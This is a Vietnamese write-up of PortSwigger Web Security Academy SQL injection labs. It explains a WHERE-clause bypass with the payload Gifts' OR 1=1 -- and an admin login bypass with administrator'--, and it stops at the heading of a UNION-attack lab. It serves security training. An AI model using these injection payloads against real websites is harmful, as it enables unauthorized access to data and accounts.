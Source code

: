 # SQL Injection - *Nguyễn Văn Thọ*

## Apprentice
### Bài 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
> ![](https://i.imgur.com/fxlb7I5.png)

Ở bài này, đề mô tả rằng chức năng `category filter` chứa lỗ hổng SQLi như hình, mục tiêu là khai thác để hiển thị toàn bộ sản phẩm trong database ra

Câu truy vấn đề cung cấp như sau 
```sql!
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Ta có thể sửa lại thành 
```sql!
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- AND released = 1
```
Vậy là ta có 1 câu truy vấn luôn đúng, nhờ thế có thể lấy được toàn bộ sản phẩm trong bảng `products`
Khi ta sử dụng chức năng filter của trang web, đường dẫn sẽ là `web-security-academy.net/filter?category=Gifts`, nó nhận tham số để filter trên url, và đẩy tham số đó vào câu query.
Để khai thác, ta đổi tham số thành `Gifts' OR 1=1 --` 
Câu query sẽ thành 
```sql!
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```
Kết quả khai thác:
>![](https://i.imgur.com/ed0C64F.png)

<hr>

### Bài 2: SQL injection vulnerability allowing login bypass
>![](https://i.imgur.com/4kENrSj.png)

Mục tiêu của bài này là đăng nhập dưới tài khoản admin. Ngoài ra đề không cung cấp thông tin thêm.
Truy cập trang web và sử dụng chức năng đăng nhập, ta đoán câu query sẽ là:
```sql!
SELECT * FROM USERS WHERE username=$_POST['username'] AND password=$_POST['password']
```
Data ta post lên sẽ đẩy thẳng vào query, do đó ta có thể sửa trường `username` để bỏ qua điều kiện của `password` như sau:
```sql!
SELECT * FROM USERS WHERE username='administrator' --' AND password=$_POST['password']
```
Kết quả khai thác:
>![](https://i.imgur.com/GDdeWal.png)

<hr>

## Practitioner
### Bài 3: SQL injection UNION attack, determining the number of columns returned by the query
>![](https://i.imgur.com/6rtBrF6.png)
